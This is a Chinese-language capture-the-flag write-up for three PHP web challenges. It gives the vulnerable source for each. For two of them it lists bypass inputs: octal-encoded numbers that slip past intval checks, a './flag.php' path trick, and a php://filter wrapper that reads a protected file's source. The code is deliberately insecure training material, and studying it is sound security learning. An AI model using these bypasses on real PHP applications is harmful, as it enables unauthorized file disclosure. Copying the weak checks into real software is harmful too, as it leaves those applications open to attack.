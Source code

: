 ## 95-intval

```php
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

把小数点过滤了

```
八进制：%0a010574 、+010574 、%20010574
```

## 96-./

```php
if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }
}
```

思路是利用`highlight_file`来读取，但是传入的u不能为flag.php

linux下./表示当前路径

```
?u=./flag.php
```

也可以伪协议读：

```
?u=php://filter/read=convert.base64-encode/resource=flag.php
```

## 97-md5

```php
if (isset($_POST['a']) and isset($_POST['b'])) {
	if ($_POST['a'] != $_POST['b'])
        if (md5($_POST['a']) === md5($_POST['b']))
            echo $flag;
        else
            print 'Wrong.';
}
```
